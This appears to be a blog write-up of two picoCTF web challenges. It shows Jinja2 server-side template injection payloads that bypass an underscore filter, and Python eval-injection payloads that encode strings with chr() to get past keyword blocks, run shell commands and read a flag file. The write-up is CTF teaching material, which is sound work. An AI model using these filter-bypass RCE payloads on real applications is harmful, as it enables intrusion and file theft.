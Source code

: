 +++
date = '2025-08-09T17:07:19+08:00'
draft = false
title = 'PicoCTF Web Medium Writeup'
+++

# SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website

http://shape-facility.picoctf.net:63568/

Website is vulnerable to SSTI
![a](4f353aa04b3d12bbc315a7900e2f82ec1cb08d1e.png)

Based on the server response header and templating evaluation, most probably a Python templating engine, Jinja2
![b](790e45b4b52ecadead56b655e917f5c68529db65.png)

A typical Jinja SSTI payload is `{{ ().class.base.subclasses() }}`

The app filters certain characters like `_`, we can bypass the filter by replacing `_` with `\x5f`. To make our payload more subversive, we can also change the way we get attribute of an object from `foo.bar` to `foo|attr("bar")`.

```python
{{()|attr('\x5f\x5fclass\x5f\x5f')}}

|attr('\x5f\x5f\x5f\x5f')

# list the subclasses avaliable
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
```

We can manually find the offset for os class or we can access the os class through the built python builtin functions. The example below utilise the request class to access python builtin functions.

```python
{{request.application.__globals__.
__builtins__.__import__('os').popen('id').read()}}
```

We can access the subclasses of each special methods in function as such `__globals__.__builtins__`. Since we are bypassing the filter, we can convert our payload from `__globals__.__builtins__` to `attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')`

The final payload

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

SSTI to get RCE
![c](bba8bc573237b0886ac577b4a77ac8053e0473cc.png)

Locate the flag and read it
![d](49f56ee14ba09e0c4e03001ff2f7c31334129361.png)

![e](acb87892225f893fe9ce19216cebda869058dcf5.png)

# 3v@l

ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

![](1bd85db1970efa6120aa9ec21f77681f843e0228.png)

Server response suggests that it is a python application
![](a7a052a7c0dddf41c3237af378818f7820af78e0.png)

Payload `code=7*7` will show 49 in the HTML response. There seems to be some sort of evaluation of expressions. A possibility maybe through templating engine or functions like `eval()`.

![](ce9601cf2dfec1bb21d73762471b7efc810d7674.png)

`code=__import__('os').system('id')`

![](d3cce9327123ae3dbd1dd3ac1f2d7d7af160508c.png)

Since the user input is being evaluated, we can use chr(111)+chr(115) instead of the string `os`. Make sure to URL encode the `+` to `%2b`. You can get the unicode integer of a character using `chr('o')` -\> 111

![](95fe163414f731a61344e7ea15135a1c027a5739.png)

List directory, again we are faced with forbidden keyword `ls`.

![](3bf9785d913590dbbba495d3463dca32c83aa572.png)

```python
>>> ord('l')
108
>>> ord('s')
115
>>> ord(' ')
32
>>> ord('-')
45
>>> ord('a')
97
```

```python
code=__import('os').popen('ls -la').read()

code=__import__(chr(111)%2bchr(115)).popen(chr(108)%2bchr(115)%2bchr(32)%2bchr(45)%2bchr(108)%2bchr(97)).read()
```

![](e719e8e9f3ddc42f19d44a0ac1b86025daf865d1.png)

The flag is in /flag.txt

```python
code=__import('os').popen('ls -la /').read()

code=__import__(chr(111)%2bchr(115)).popen(chr(108)%2bchr(115)%2bchr(32)%2bchr(45)%2bchr(108)%2bchr(97)%2bchr(32)%2bchr(47)).read()
```

![](4a8af4b8f62892133b9be92d720ae9939afb9ba2.png)

Read the flag

```python
code=__import('os').popen('cat /flag.txt').read()

99 97 116 32 47 102 108 97 103 46 116 120 116

code=__import__(chr(111)%2bchr(115)).popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%2bchr(46)%2bchr(116)%2bchr(120)%2bchr(116)).read()
```

![](752e089bf9ee5b1e0c6d2c4ef59fcb95098bd891.png)

Another way to build the string via chr is using join method and lambda function

```python
''.join([chr(x) for x in [47, 102, 108, 97, 103, 46, 116, 120, 116]]).read()
```
